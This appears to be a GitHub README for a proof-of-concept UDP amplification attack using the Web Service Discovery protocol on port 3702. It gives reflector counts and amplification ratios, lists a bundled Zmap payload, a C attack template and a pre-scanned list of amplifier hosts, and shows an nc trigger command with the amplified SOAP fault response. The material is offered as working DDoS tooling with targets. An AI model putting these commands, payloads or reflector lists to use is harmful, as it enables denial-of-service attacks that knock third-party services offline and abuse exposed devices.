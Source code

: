 # Web Service Discovery protocol amplification PoC (port 3702)

Edit: This has now been reported on and referenced by NETSCOUT and ZDNet. https://www.zdnet.com/article/protocol-used-by-630000-devices-can-be-abused-for-devastating-ddos-attacks/

Yet another bloody UDP insecure service, this time similar to other abused SOAP protocols but needing no trigger payload.
Shodan showed 216,313 possible reflectors with the biggest number from Vietnam followed by United States.

I'm not Akamai so ill be waiting to see their report, but from what I can measure with overhead additions, the amps range from 50 to 150x.

I've scanned and filtered a list that will be alongside this script.

- WSD_3702.pkt - Zmap payload ("<\xaa>" or any WSD centric discovery payload will work)
- wsd.c - Standard socket template with my corrections
- wsd.list - Example amp list

Example: nc -u x.x.x.x 3702 < <(echo ':')
Output:
`<?xml version="1.0" encoding="UTF-8"?><SOAP-ENV:Fault xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsdd="http://schemas.xmlsoap.org/ws/2005/04/discovery" xmlns:chan="http://schemas.microsoft.com/ws/2005/02/duplex" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:wsa5="http://www.w3.org/2005/08/addressing" xmlns:xmime="http://tempuri.org/xmime.xsd" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:wsrfbf="http://docs.oasis-open.org/wsrf/bf-2" xmlns:wstop="http://docs.oasis-open.org/wsn/t-1" xmlns:wsrfr="http://docs.oasis-open.org/wsrf/r-2" xmlns:wsnt="http://docs.oasis-open.org/wsn/b-2" xmlns:tt="http://www.onvif.org/ver10/schema" xmlns:ter="http://www.onvif.org/ver10/error" xmlns:tns1="http://www.onvif.org/ver10/topics" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:trt="http://www.onvif.org/ver10/media/wsdl" xmlns:tev="http://www.onvif.org/ver10/events/wsdl" xmlns:tdn="http://www.onvif.org/ver10/network/wsdl" xmlns:timg="http://www.onvif.org/ver20/imaging/wsdl" xmlns:trp="http://www.onvif.org/ver10/replay/wsdl" xmlns:tan="http://www.onvif.org/ver20/analytics/wsdl"><faultcode>SOAP-ENV:Client</faultcode><faultstring>No tag: no XML root element or missing SOAP message body element</faultstring></SOAP-ENV:Fault>`
